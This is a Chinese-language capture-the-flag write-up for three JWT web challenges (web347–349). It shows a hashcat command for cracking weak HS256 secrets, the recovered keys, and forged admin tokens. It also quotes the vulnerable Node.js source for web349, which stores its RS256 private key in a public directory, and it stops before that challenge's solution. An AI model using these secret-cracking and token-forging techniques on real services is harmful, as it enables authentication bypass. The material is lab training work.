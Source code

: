 分析后得到HS256&Need Signature,所以得爆破密码。

```
hashcat -a 0 -m 16500
```

密钥为 123456

payload:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMTQ4OCwiZXhwIjoxNjk2MzI4Njg4LCJuYmYiOjE2OTYzMjE0ODgsInN1YiI6ImFkbWluIiwianRpIjoiZmY3MzBkOWI3OWExMmVmOTUyNjk4MmY2MWQ5MWI0YmQifQ.9F9km5a71C0Pt-R-4EXMnCI_ot6WHut1kmS4ZR7Lf1U
```

拿到flag



### web348

同web347，继续爆破，得到密码为aaab

payload:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMjQ1MiwiZXhwIjoxNjk2MzI5NjUyLCJuYmYiOjE2OTYzMjI0NTIsInN1YiI6ImFkbWluIiwianRpIjoiOGU0NDVlZTY4NzcyZmUzZjI1ZmFkNjllODE0MWZlOTcifQ.sjuE3NvuibTvFJa8p9HcGo_MZt5eaIxCm94RnbydWTg
```



### web349

附件：

```
/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//public//private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
  res.cookie('auth',token);
  res.end('where is flag?');
  
});

router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//public/public.key');  // get public key
	jwt.verify(auth, cert, function(err, decoded) {
	  if(decoded.user==='admin'){
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin');
	  }
	});
});
```
